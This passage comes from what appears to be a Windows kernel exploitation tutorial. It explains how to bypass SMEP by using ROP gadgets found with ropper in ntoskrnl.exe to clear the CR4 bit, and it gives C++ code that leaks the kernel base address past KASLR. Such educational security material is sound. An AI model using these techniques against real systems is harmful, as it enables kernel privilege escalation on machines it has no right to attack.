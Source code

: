After trying to execute one of the NOPs we get an error. We can get some additional information with the analyze extension:

```
!analyze -v
...
ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY (fc)
```

This is **SMEP** (Supervisor Mode Execution Prevention) kicking in. The kernel is not allowed to execute code at the user-mode address we provided and can therefore not just execute our shellcode. In order to bypass SMEP, we have to find a way to either disable it or make it "think" we are not a user-mode page. For this introductory exploit, I’ll just show the bypass method.

SMEP is controlled by the 20th bit in the [CR4 Register](https://en.wikipedia.org/wiki/Control_register#CR4).

If we can somehow change that bit, we can disable it & still jump to our shellcode and execute it. While we can not execute shellcode, we can use ROP to flip that bit. To do that, we need to first look for gadgets we can use inside the driver or kernel. The kernel is a much better source of gadgets due to its size. I’m a big fan of [ropper ](https://github.com/sashs/Ropper)so I’m going to copy ntoskrnl.exe from the Debuggee VM to my Kali VM.

```
ropper --file ntoskrnl.exe --console
(ntoskrnl.exe/PE/x86_64)> search %cr4%
0x00000001403acd47: mov cr4, rcx; ret;
(ntoskrnl.exe/PE/x86_64)> search pop rcx
0x000000014020a386: pop rcx; ret;
```

We identified 2 gadgets we can use, POP RCX to get a value with its 20th bit set to zero into RCX and MOV CR4, RCX to get that value into CR4. It’s usually a good idea to get the "old" value of CR4 and then modify it. For simplicity, we are just going to observe what it looks like in the debugger when we execute our exploit and then hardcode it here.

Before adding the ROP chain to our exploit we have to think about ASLR. Ropper shows relative addresses so we need to find the load address of the kernel. Fortunately, this is very easy from a medium integrity shell as there is an API that allows to obtain it:

```cpp
QWORD getBaseAddr(LPCWSTR drvName) {
	LPVOID drivers[512];
	DWORD cbNeeded;
	int nDrivers, i = 0;
	if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
		WCHAR szDrivers[512];
		nDrivers = cbNeeded / sizeof(drivers[0]);
		for (i = 0; i < nDrivers; i++) {
			if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
				if (wcscmp(szDrivers, drvName) == 0) {
					return (QWORD)drivers[i];
				}
			}
		}
	}
	return 0;
}
```
